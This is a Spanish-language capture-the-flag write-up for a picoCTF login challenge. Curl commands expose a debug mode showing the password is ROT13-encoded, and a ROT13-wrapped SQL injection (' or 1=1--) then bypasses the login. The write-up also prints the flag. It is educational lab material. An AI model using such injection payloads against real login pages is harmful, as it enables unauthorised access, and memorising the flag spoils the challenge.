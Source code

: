 ## Descripcion.
#### Description

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/54253/` ([link](https://jupiter.challenges.picoctf.org/problem/54253/)) or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!

## Pistas.
Seems like the password is encrypted.

## Solucion.
```bash 
┌──(kali㉿kali)-[~]
└─$ curl "http://jupiter.challenges.picoctf.org:54253/login.php"
<h1>Login failed.</h1>                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ curl "http://jupiter.challenges.picoctf.org:54253/login.php" --data "password=hola&debug=1"
<pre>password: hola
SQL query: SELECT * FROM admin where password = 'ubyn'
</pre><h1>Login failed.</h1>                                                                                                                                                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ curl "http://jupiter.challenges.picoctf.org:54253/login.php" --data "password=' or 1=1--&debug=1"
<pre>password: ' or 1=1--
SQL query: SELECT * FROM admin where password = '' be 1=1--'
</pre>                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ curl "http://jupiter.challenges.picoctf.org:54253/login.php" --data "password=' be 1=1--&debug=1" && echo
<pre>password: ' be 1=1--
SQL query: SELECT * FROM admin where password = '' or 1=1--'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}</p>

```

## Bandera.
picoCTF{3v3n_m0r3_SQL_7f5767f6}

## Notas Adicionales.
Para esta bandera tuvimos que usar una inyeccion de sql con la palabra be (' be 1=1--') utiliza un comentario de línea doble (-- ) para eliminar el resto de la consulta original y permitir que el atacante agregue su propia consulta SQL. La parte '1=1' es una expresión booleana que siempre es verdadera y se utiliza para asegurarse de que la consulta resulte en un valor verdadero, lo que significa que la consulta será ejecutada sin errores.